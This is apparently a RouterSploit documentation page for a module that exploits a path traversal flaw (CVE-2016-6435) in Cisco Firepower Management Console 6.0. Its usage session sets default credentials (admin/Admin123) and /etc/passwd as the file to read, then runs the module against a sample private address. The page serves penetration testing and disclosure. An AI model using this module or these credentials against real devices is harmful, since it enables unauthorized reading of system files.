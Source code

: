 # Cisco Firepower Management 6.0 Path Traversal

## Description
Module exploits Cisco Firepower Management 6.0 Path Traversal vulnerability.If the target is vulnerable, it is possible to retrieve content of the arbitrary files.

## Authors
* Matt # vulnerability discovery
* sinn3r # metasploit module
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6435](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6435)
* [https://blog.korelogic.com/blog/2016/10/10/virtual_appliance_spelunking](https://blog.korelogic.com/blog/2016/10/10/virtual_appliance_spelunking)

## Vulnerable devices
* Cisco Firepower Management Console 6.0

## Usage
```
rsf > use exploits/cisco/firepower_management60_path_traversal
rsf (Cisco Firepower Management 6.0 Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address
   port       443                  Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Default username to log in
   path         /etc/passwd          File to read through vulnerability
   password     Admin123             Default password to log in


rsf (Cisco Firepower Management 6.0 Path Traversal) > set target https://192.168.1.1
[+] {'target': 'https://192.168.1.1'}
rsf (Cisco Firepower Management 6.0 Path Traversal) > run
[*] Running module...
```
